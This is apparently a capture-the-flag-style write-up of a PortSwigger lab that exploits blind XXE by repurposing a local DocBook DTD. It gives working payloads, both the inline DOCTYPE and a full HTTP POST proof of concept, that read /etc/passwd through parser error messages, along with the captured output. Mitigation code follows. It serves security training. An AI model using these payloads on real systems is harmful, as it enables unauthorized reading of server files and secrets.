


# Lab 09: Exploiting XXE to Retrieve Data by Repurposing a Local DTD

> **Topic**: XXE (XML External Entity) Injection
> **Lab Number**: 09
> **Platform**: PortSwigger Web Security Academy

## Category
XXE Injection — Blind XXE Error-Based Exfiltration via Local DTD Repurposing

## Vulnerability Summary
The stock-check endpoint is vulnerable to blind XXE but blocks outbound network requests, preventing the external DTD technique from Lab 05/06. However, the server has a known system DTD on disk (`/usr/share/yelp/dtd/docbookx.dtd`) that defines a parameter entity (`ISOamso`). By loading this local DTD via `SYSTEM` and then redefining `ISOamso` in the inline DOCTYPE to contain the nested error-based exfiltration payload, the parser processes the redefined entity when it loads the local DTD — triggering a `java.io.FileNotFoundException` that contains the full contents of `/etc/passwd` in the error message returned in the HTTP response.

## Attack Methodology

### Step 1: Identify a Usable Local DTD
The technique requires a DTD file on the server's filesystem that defines at least one parameter entity. Common candidates on Linux systems:

- `/usr/share/yelp/dtd/docbookx.dtd` — defines `ISOamso` (and others)
- `/usr/share/xml/docbook/schema/dtd/4.5/docbookx.dtd`
- `/usr/share/sgml/docbook/xml-dtd-4.5/docbookx.dtd`

The target server has `/usr/share/yelp/dtd/docbookx.dtd` which defines `%ISOamso`.

### Step 2: Craft the Inline DOCTYPE Payload
The inline DOCTYPE:
1. Loads the local DTD via `%local_dtd`
2. Redefines `ISOamso` before the local DTD is processed — the redefined value contains the nested error-based exfiltration chain
3. When the local DTD is parsed, it calls `%ISOamso;` which now executes the attacker's payload

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE message [
  <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
  <!ENTITY % ISOamso '
    <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
    <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
    &#x25;eval;
    &#x25;error;
  '>
  %local_dtd;
]>
<stockCheck>
    <productId>2</productId>
    <storeId>1</storeId>
</stockCheck>
```

`&#x25;` = `%`, `&#x26;` = `&`, `&#x27;` = `'` — HTML entity encoding required to embed parameter entity syntax inside an entity value in the inline DOCTYPE.

### Step 3: Read `/etc/passwd` from the Error Response
The server returned HTTP 400 with the full `/etc/passwd` in the error message:

```
"XML parser exited with error: java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
carlos:x:12002:12002::/home/carlos:/bin/bash
...
```

Lab solved.





## Technical Root Cause

The XML spec prohibits nested parameter entity references in inline DOCTYPE declarations — `%entity;` inside another entity's value is not allowed inline. However, it **is** allowed inside an external DTD subset. The local DTD trick exploits this: the inline DOCTYPE loads a local file as an external DTD subset, and the redefined entity inside that subset can contain nested parameter entity references.

The execution order:
1. Parser reads inline DOCTYPE
2. `%ISOamso` is redefined with the exfiltration payload
3. `%local_dtd;` loads `/usr/share/yelp/dtd/docbookx.dtd` as an external subset
4. The local DTD calls `%ISOamso;` — which now executes the attacker's redefined version
5. `%eval;` declares `%error;` with `/etc/passwd` contents embedded in the path
6. `%error;` triggers `FileNotFoundException` with the file contents in the message

### Why This Works When External DTD Fetching Is Blocked

| Scenario | External DTD (Lab 05/06) | Local DTD Repurposing (Lab 09) |
|---|---|---|
| Outbound HTTP allowed | ✅ Works | ✅ Works |
| Outbound HTTP blocked | ❌ Fails | ✅ Works — DTD is on disk |
| Known local DTD required | No | Yes |

This technique works entirely within the server's filesystem — no outbound connection is needed.

## Impact
- **Full File Read Without Network Egress**: Bypasses egress firewall rules that block the external DTD technique
- **Applicable to Any Server with a Known DTD**: Any Linux system with `yelp`, `docbook`, or similar packages installed has usable local DTDs
- **Same Blast Radius as Other XXE Variants**: `/etc/passwd`, config files, private keys, source code — all readable

## Proof of Concept

```
POST /product/stock HTTP/2
Content-Type: application/xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE message [
  <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
  <!ENTITY % ISOamso '
    <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
    <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
    &#x25;eval;
    &#x25;error;
  '>
  %local_dtd;
]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

`/etc/passwd` contents appear in the `FileNotFoundException` error in the HTTP response.

## Key Takeaways
1. **Local DTDs Are a Fallback When Egress Is Blocked**: If the server cannot reach an attacker-controlled host, any local DTD that defines a parameter entity can be repurposed to enable nested entity declarations — the same error-based exfiltration chain as Lab 06, but entirely on-disk.
2. **Entity Redefinition Is the Core Trick**: The inline DOCTYPE redefines an entity that the local DTD will call. The parser uses the last definition it saw — so the attacker's redefinition wins over the original.
3. **HTML Entity Encoding Is Required**: `%`, `&`, and `'` inside an entity value in an inline DOCTYPE must be encoded as `&#x25;`, `&#x26;`, `&#x27;` respectively, because the parser would otherwise interpret them as syntax rather than literal characters.
4. **Fingerprint the OS to Find Usable DTDs**: Common candidates are installed with `yelp` (GNOME help), `docbook-xml`, and `sgml-data` packages. Probing `file:///usr/share/yelp/dtd/docbookx.dtd` with a basic XXE is a reliable first check on Debian/Ubuntu/RHEL systems.

## Mitigation

```python
# Disable DTD processing entirely — prevents both local and external DTD loading
parser = etree.XMLParser(resolve_entities=False, no_network=True, load_dtd=False)
```

```java
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
```

Blocking outbound HTTP is not sufficient — this technique requires no network access. The fix must be at the parser level.

## References
- [PortSwigger XXE Lab — Exploiting XXE to retrieve data by repurposing a local DTD](https://portswigger.net/web-security/xxe/blind/lab-xxe-trigger-error-message-by-repurposing-local-dtd)
- [PortSwigger XXE — Repurposing a local DTD](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-by-repurposing-a-local-dtd)
- [CWE-611: Improper Restriction of XML External Entity Reference](https://cwe.mitre.org/data/definitions/611.html)

## Tools Used
- Burp Suite Professional (Proxy, Repeater)
- Chromium

---

*Lab completed on: 2026-05-15*
*Writeup by vibhxr*
